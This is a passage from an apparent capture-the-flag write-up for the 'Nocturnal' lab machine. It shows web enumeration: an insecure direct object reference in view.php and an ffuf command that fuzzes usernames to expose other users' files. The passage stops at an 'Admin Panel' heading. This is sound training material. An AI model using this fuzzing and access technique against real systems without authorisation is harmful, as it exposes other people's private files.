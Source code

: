 ```bash
10.10.11.64 nocturnal.htb
```

# 80 - TCP

## Enumeration

Visiting the website reveals a web app. Register an account and log in to explore the features. After exploring it for a while, I found that the I need to be authenticated to access the files. I can list uploaded files if I supply a valid username and any filename that has valid extension. It can be accessed from other user accounts too.

```bash
http://nocturnal.htb/view.php?username=jergal&file=any.pdf
```

I will try to fuzz the username.

```bash
> ffuf -H "Cookie: PHPSESSID=<Cookie>" -u 'http://nocturnal.htb/view.php?username=FUZZ&file=any.pdf' -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -ic -c -fs 2985
...
admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 72ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 58ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 74ms]
...
```

Visiting the page for `amanda` reveals `privacy.odt` file.

![alt text](image.png)

## Admin Panel
